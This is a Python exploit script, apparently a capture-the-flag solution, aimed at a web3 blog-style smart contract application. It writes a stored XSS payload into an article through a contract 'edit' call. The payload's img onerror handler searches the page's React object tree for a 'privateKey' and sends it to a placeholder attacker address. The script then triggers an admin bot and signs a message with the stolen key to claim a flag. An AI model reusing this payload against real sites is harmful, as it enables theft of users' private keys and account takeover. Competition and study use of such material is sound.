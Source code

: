 ```python
print('username_count', contract.functions.getUserNameCount().call())
 
print('undo') # 1 finney
call(10 ** 15, contract.functions.undo())
 
#print('read', web3.eth.get_storage_at(address, keccak256(apos)))
print('article', contract.functions.read(user=admin, id=0).call())
 
title = 'mytitle'
content = '''<img src=x onerror="var f=(o,t,d)=>{var v;Object.keys(o).some(function(k){if(k===t){v=o[k];return true;}if(o[k]&&typeof o[k]==='object'&&d>0){v=f(o[k],t,d-1);return v!==undefined;}});return v;};this.src='http://IP:POST/?'+f(document.getElementById('root'),'privateKey',10);" />'''
fee_per_byte = 50 * 10**12
total_fee = fee_per_byte * len(title + content)
print('editing')
call(total_fee, contract.functions.edit(id=offset//3, title=title, content=content))
 
print('article', contract.functions.read(user=admin, id=0).call())
 
res = requests.post(URL + '/api/bot')
print(res.text)
 
apv = input('the admin private key: ').strip()
message = encode_defunct(text = admin.lower() + ': vivo flag')
data = {'message': message.body.decode(),
    'signature': '0x'+bytes(web3.eth.account.sign_message(message, private_key=apv).signature).hex()}
print(data)
res = requests.post(URL + '/api/flag', json=data)
print(res.text)
```



